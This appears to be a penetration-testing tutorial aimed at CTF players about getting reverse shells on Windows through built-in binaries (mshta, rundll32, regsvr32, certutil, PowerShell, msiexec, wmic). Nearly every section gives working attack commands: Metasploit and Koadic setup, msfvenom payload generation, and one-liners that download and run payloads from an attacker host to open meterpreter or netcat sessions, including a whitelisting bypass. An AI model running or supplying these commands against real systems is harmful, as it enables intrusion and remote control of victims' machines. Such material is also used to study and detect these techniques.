

# Get Reverse-shell via Windows one-liner

This article will help those who play with CTF challenges because today we will discuss “Windows One-Liner” to use malicious commands such as PowerShell or rundll32 to get the reverse shell of the Windows system. Generally, while abusing HTTP services or other programs, we get RCE vulnerability. This loophole allows you to remotely execute any system command. We have therefore prepared a list of Windows commands that enable you to use the target machine to get reverse connections.

**Mshta.exe**

* Launch HTA attack via HTA Web Server of Metasploit

**Rundll32.exe**

* Launch Rundll32 Attack via SMB Delivery of Metasploit

**Regsvr32.exe**

* Launch Regsvr32 via Script Web Delivery of Metasploit

**Certutil.exe**

* Launch MSbuild Attack via Msfvenom C# shellcode

**Powershell.exe**

* Launch Powercat attack via Powershell
* Launch cscript.exe via Powershell
* Launch Batch File Attack via Powershell

**Msiexec.exe**

* Launch msiexec attack via msfvenom

**Wmic.exe**

* Launch Wmic.exe attack via Koadic

## Mshta.exe

Mshta.exe runs the Microsoft HTML Application Host, the Windows OS utility responsible for running HTA( HTML Application) files. HTML files that we can run JavaScript or VBScript with. You can interpret these files using the Microsoft MSHTA.exe tool.

Metasploit contain the “HTA Web Server” module which generates malicious hta file. This module hosts an HTML Application (HTA) that when opened will run a payload via Powershell. When a user navigates to the HTA file they will be prompted by IE twice before the payload is executed.

```
use exploit/windows/misc/hta_server
msf exploit(windows/misc/hta_server) > set srvhost 192.168.1.109
msf exploit(windows/misc/hta_server) > set lhost 192.168.1.109
msf exploit(windows/misc/hta_server) > exploit
```
Now run the malicious code through mshta.exe on the victim’s machine (vulnerable to RCE) to obtain meterpreter sessions.



Once you will execute the malicious hta file on the remote machine with the help of mshta.exe, you get the reverse connection at your local machine (Kali Linux).

```mshta.exe http://192.168.1.109:8080/5EEiDSd70ET0k.hta```


As you can observe, we have the meterpreter session of the victim as shown below:


## Rundll32.exe

Rundll32.exe is associated with Windows Operating System that allows you to invoke a function exported from a **DLL**, either 16-bit or 32-bit and store it in proper memory libraries.

### Launch Rundll32 Attack via SMB Delivery of Metasploit

Metasploit also contain the “SMB Delivery” module which generates malicious dll file. This module serves payloads via an SMB server and provides commands to retrieve and execute the generated payloads. Currently supports DLLs and Powershell.

```
use exploit/windows/smb/smb_delivery
msf exploit(windows/smb/smb_delivery) > set srvhost 192.168.1.109
msf exploit(windows/smb/smb_delivery) > exploit
```

Now run the malicious code through rundll32.exe on the victim machine (vulnerable to RCE) to obtain meterpreter sessions.


Once you will execute the dll file on the remote machine with the help of rundll32.exe, you will get the reverse connection at your local machine (Kali Linux).

```rundll32.exe \\192.168.1.109\vabFG\test.dll,0```


As you can observe, we have the meterpreter session of the victim as shown below:


## Regsvr32.exe

Regsvr32 is a command-line utility to register and unregister OLE controls, such as DLLs and ActiveX controls in the Windows Registry. Regsvr32.exe is installed in the %systemroot%\System32 folder in Windows XP and later versions of Windows.

RegSvr32.exe has the following command-line options:

```
Syntax: Regsvr32 [/s][/u] [/n] [/i[:cmdline]] <dllname>

/u – Unregister server
/i – Call DllInstall passing it an optional [cmdline]; when it is used with /u, it calls dll to uninstall
/n – do not call DllRegisterServer; this option must be used with /i
/s – Silent; display no message boxes
```

### Launch Regsvr32 via Script Web Delivery of Metasploit

This module quickly fires up a web server that serves a payload. The provided command which will allow for a payload to download and execute. It will do it either specified scripting language interpreter or “squiblydoo” via regsvr32.exe for bypassing application whitelisting. The main purpose of this module is to quickly establish a session on a target machine when the attacker has to manually type in the command: e.g. Command Injection.

Regsvr32 uses “squiblydoo” technique for bypassing application whitelisting. The signed Microsoft binary file, Regsvr32, is able to request a .sct file and then execute the included PowerShell command inside of it. Both web requests (i.e., the **.sct file and PowerShell** download/execute) can occur on the same port. “PSH (Binary)” will write a file to the disk, allowing for custom binaries to be served up to be downloaded/executed.

```
use exploit/multi/script/web_delivery
msf exploit (web_delivery)>set target 3
msf exploit (web_delivery)> set payload windows/meterpreter/reverse_tcp
msf exploit (web_delivery)> set lhost 192.168.1.109
msf exploit (web_delivery)>set srvhost 192.168.1.109
msf exploit (web_delivery)>exploit
```

Copy the highlighted text shown in below window


Once you will execute the scrobj.dll file on the remote machine with the help of regsrv32.exe, you will get the reverse connection at your local machine (Kali Linux).

```regsvr32 /s /n /u /i:http://192.168.1.109:8080/xo31Jt5dIF.sct scrobj.dll```


As you can observe, we have the meterpreter session of the victim as shown below:


## Certutil.exe

Certutil.exe is a command-line program that is installed as part of Certificate Services. We can use this tool to **execute** our malicious **exe file** in the target machine to get a meterpreter session.

### Launch certutil Attack via Msfvenom

Generate a malicious executable (.exe) file with msfvenom and start multi/handler to get the reverse shell of the victim’s machine.

```msfvenom -p windows/meterpreter/reverse_tcp lhost=192.168.1.109 lport=1234 -f exe > shell.exe```
 


Now, to dump configuration information or shell.exe file files with certutil. you can follow below syntax:

```
Syntax: [-f] [-urlcache] [-split] Path of executable file
```

```certutil.exe -urlcache -split -f http://192.168.1.109/shell.exe shell.exe & shell.exe```


```
use exploit/multi/handler
msf exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
msf exploit(multi/handler) > set lhost 192.168.1.109
msf exploit(multi/handler) > set lport 1234
msf exploit(multi/handler) > exploit
```
As you can observe, we have a meterpreter session of the victim as shown below:


## Powershell.exe

You can use PowerShell.exe to start a PowerShell session from the command line of another tool, such as Cmd.exe, or use it at the PowerShell command line to start a new session. Read more from the official website of Microsoft Windows from [here](https://docs.microsoft.com/en-us/powershell/scripting/components/console/powershell.exe-command-line-help?view=powershell-6).

### Launch Powercat attack via Powershell

Powercat is a PowerShell native backdoor listener and reverse shell also known as modifying version of netcat because it has integrated support for the generation of encoded payloads, which msfvenom would do and also has a client- to- client relay, a term for Powercat client that allows two separate listeners to be connected.

Download PowerShell in your local machine and then the powercat.ps1 transfer files with python HTTP server to obtain reverse shell of the target as shown below and start netcat listener.

```
git clone https://github.com/besimorhino/powercat.git
python -m SimpleHTTPServer 80
```


Then execute the following command on the remote side to get netcat session.

```
powershell -c "IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.1.109/powercat.ps1');powercat -c 192.168.1.109 -p 1234 -e cmd"
```


As you can observe, we have netcat session of the victim as shown below:


## Batch File

Similarly, PowerShell allows the client to **execute bat file**, therefore let’s generate the malicious batch file with msfvenom as given below and start netcat listener.

```msfvenom -p cmd/windows/reverse_powershell lhost=192.168.1.109 lport=4444 > 1.bat```


Then execute the following command on the remote side to get netcat session.

```powershell -c "IEX((New-Object System.Net.WebClient).DownloadString('http://192.168.1.109/1.bat'))```


As you can observe, we have netcat session of the victim as shown below:


## Cscript

Similarly, PowerShell allows the client to execute cscript.exe to run **wsf, js** and **vbscript**, therefore let’s generate malicious bat file with msfvenom as given below and start multi/handler as the listener.

```msfvenom -p cmd/windows/reverse_powershell lhost=192.168.1.109 lport=1234 -f vbs > 1.vbs```


Then execute the following command on the remote side to get a meterpreter session.

```
powershell.exe -c "(New-Object System.NET.WebClient).DownloadFile('http://192.168.1.109/1.vbs',\"$env:temp\test.vbs\");Start-Process %windir%\system32\cscript.exe \"$env:temp\test.vbs\""
```


```
use exploit/multi/handler
msf exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
msf exploit(multi/handler) > set lhost 192.168.1.109
msf exploit(multi/handler) > set lport 1234
msf exploit(multi/handler) > exploit
```

As you can observe, we have meterpreter session of the victim as shown below:


## Msiexec.exe

As we all are aware that Windows OS comes installed with a Windows Installer engine which is used by MSI packages for the installation of applications. The executable program that interprets packages and installs products is Msiexec.exe.  

### Launch msiexec attack via msfvenom

Let’s generate an MSI Package file (1.msi) utilizing the Windows Meterpreter payload as follows and start multi/handler as the listener.

```msfvenom -p windows/meterpreter/reverse_tcp lhost=192.168.1.109 lport=1234 -f msi > 1.msi```


Once you will execute the 1.msi file on the remote machine with the help of msiexec, you will get the reverse connection at your local machine (Kali Linux).

```msiexec /q /i http://192.168.1.109/1.msi```


```
use exploit/multi/handler
msf exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
msf exploit(multi/handler) > set lhost 192.168.1.109
msf exploit(multi/handler) > set lport 1234
msf exploit(multi/handler) > exploit
```

As you can observe, we have meterpreter session of the victim as shown below:


## Wmic.exe

The WMIC utility is a Microsoft tool provides a WMI command-line interface that is used for a variety of administrative functions for local and remote machine and also used to wmic query such as system settings, stop processes and execute scripts locally or remotely. Therefore, it can invoke **XSL script** (eXtensible Stylesheet Language).

### Launch Wmic.exe attack via Koadic

Now will generate a malicious XSL file with the help of koadic which is a Command & Control tool which is quite similar to Metasploit and Powershell Empire.

To know how koadic works, read our article from here: https://www.hackingarticles.in/koadic-com-command-control-framework/

Once installation gets completed, you can run ./koadic file to start koadic and start with loading the stager/js/wmic stager by running the following command and set SRVHOST where the stager should call home.

```
use stager/js/wmic
set SRVHOST 192.168.1.107
run
```


Execute WMIC following command to download and run the malicious XSL file from a remote server:

```wmic os get /FORMAT:"http://192.168.1.107:9996/g8gkv.xsl"```


Once the malicious XSL file will get executed on the target machine, you will have a **Zombie connection** just like Metasploit.


Author: AArti Singh is a Researcher and Technical Writer at Hacking Articles an Information Security Consultant Social Media Lover and Gadgets. Contact here

